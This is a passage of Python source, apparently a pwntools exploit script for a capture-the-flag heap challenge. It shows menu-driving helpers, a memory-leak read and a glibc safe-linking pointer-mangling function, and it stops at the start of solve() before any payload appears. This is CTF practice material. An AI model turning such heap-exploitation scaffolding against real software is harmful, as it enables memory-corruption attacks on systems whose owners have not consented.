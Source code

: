 ```python
    **locals()
)


def close(conn):
    conn.close()
    if hasattr(conn, "gdb"):
        conn.gdb.quit()


def add(conn, name):
    conn.sendlineafter(b"> ", b"1")
    conn.sendlineafter(b"Name: ", name)


def message(conn, name, msg):
    conn.sendlineafter(b"> ", b"2")
    conn.sendlineafter(b"Name: ", name)
    conn.sendlineafter(b"Message: ", msg)
    line = conn.recvline()
    if b"delete the sent message" in line:
        conn.sendlineafter(b"> ", b"yes")


def protect_ptr(pos, ptr):
    return (pos >> 12) ^ ptr


def list_entries(conn):
    conn.sendlineafter(b"> ", b"3")
    conn.recvuntil(b"----------------------------------------------")
    conn.recvuntil(b"----------------------------------------------")


def remove(
    conn,
    name,
    yon=None,
    report=None,
    message=None,
):
    conn.sendlineafter(b"> ", b"4")
    conn.sendlineafter(b"Name: ", name)
    leak = None
    if not report is None:
        conn.sendlineafter(b"Report: ", report)
    if not yon is None:
        conn.recvuntil(b"Please let us know.\n")
        conn.recv(numb=len(b"Do you want to delete the send message: "))
        leak = conn.recv(numb=16)
        conn.sendlineafter(b"(yes or no)\n> ", yon)
    if not message is None:
        if isinstance(message, bytes):
            conn.sendlineafter(b"Message: ", message)
        else:
            conn.sendlineafter(b"Message: ", message(leak))
    return leak


SUPPORT_NAME = b"FL*Support*Center@fl.support.center"


def solve():
```